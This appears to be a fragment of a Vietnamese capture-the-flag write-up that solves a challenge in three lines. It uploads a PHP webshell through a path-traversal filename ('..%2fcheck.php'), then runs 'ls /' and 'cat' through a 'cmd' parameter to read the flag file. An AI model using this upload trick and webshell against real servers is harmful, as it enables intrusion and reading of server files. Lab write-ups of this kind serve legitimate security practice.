 `filename="..%2fcheck.php"` -> upload lên server với nội dung webshell PHP

`/check.php?cmd=ls /`    -> tên toàn bộ thư mục

`/check.php?cmd=cat /flagZZ1DL.txt` -> flag